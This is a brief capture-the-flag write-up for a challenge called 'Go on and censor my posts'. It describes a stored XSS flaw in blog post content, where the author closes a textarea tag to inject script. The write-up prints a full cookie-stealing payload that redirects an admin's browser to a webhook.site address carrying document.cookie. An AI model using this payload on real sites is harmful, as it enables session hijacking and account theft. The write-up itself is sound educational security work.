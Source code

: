 # Challenge `Go on and censor my posts` Writeup

- Vulnerability:
    - XSS attack

- Where:
    - Blogpost creation content

- Impact:
    - Allows to steal remote user's cookie

## Steps to reproduce

In this challenge it is not possible to inject javascript code directly.

First of all we need to create a new random post. Then, when we open the source code, we can see that the content is a `textarea` tag that renders everything we input after clicking on the `Update post` button. We can use this to our advantage by closing the tag and then injecting our payload. So, in the content area we should input `</textarea><script>location='https://webhook.site/<unique-id>/'+document.cookie></script>` and then click on the `Update post and send it for admin review` button.

This will then be loaded on the admin's browser and on the webhook site we will see a GET request containing the admin's cookie. We only need to URL decode the cookie to get the flag. The flag will be after `/SECRET=`.
